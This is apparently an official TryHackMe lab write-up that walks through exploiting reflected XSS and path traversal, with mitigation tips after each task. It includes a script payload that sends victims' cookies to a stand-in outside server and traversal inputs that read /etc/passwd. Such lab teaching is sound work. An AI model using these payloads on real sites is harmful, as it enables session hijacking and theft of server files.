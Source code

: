 TryHackMe Room: vulnerabilitiess Official Write-Up

Introduction

Welcome to the vulnerabilitiess! This room is designed to test your skills in identifying and exploiting web vulnerabilities, including Cross-Site Scripting (XSS) and Path Traversal. This write-up serves as a guide for solving the room while understanding the underlying principles of each vulnerability.

Task 1: Cross-Site Scripting (XSS)
Scenario
The web application includes a search feature vulnerable to XSS. Malicious actors can exploit this vulnerability to inject scripts, leading to session hijacking, defacement, or other malicious activities.
Steps to Exploit

    Identify the Input Field:
        Navigate to the search functionality.
        Enter a harmless input such as test and observe the reflected output.

    Inject XSS Payload:
        Try a basic payload such as:

    <script>alert('XSS');</script>

    If the alert box appears, the application is vulnerable.

Exploit Further:

    Use payloads to steal cookies or perform other actions:

        <script>document.location='http://yourserver.com?c='+document.cookie;</script>

    Mitigation:
        Recommend input sanitization and encoding outputs.

Task 2: Path Traversal

Scenario
The application exposes a file download feature without proper validation of the file paths. This allows attackers to traverse directories and access unauthorized files on the server.
Steps to Exploit

    Locate the Vulnerable Endpoint:
        Identify a feature like /download?file=<filename>.

    Test for Path Traversal:
        Replace <filename> with ../../etc/passwd or variations:

        ../../../../etc/passwd

        If successful, sensitive files like /etc/passwd or configuration files are exposed.

    Exploit Further:
        Use automated tools like dirbuster to identify accessible files.
        Extract sensitive information, such as credentials or configurations.

    Mitigation:
        Implement strict input validation and use whitelists for accessible files.

Final Notes

    Lessons Learned:
        Understand the importance of secure coding practices to prevent vulnerabilities.
        Learn how attackers leverage these vulnerabilities for malicious purposes.

    Extra Challenges:
        Introduce security headers to mitigate XSS.
        Harden directory permissions to avoid Path Traversal.

    Room Creator’s Message: Thank you for participating! We hope you enjoyed solving this room and learned valuable techniques to secure your applications.
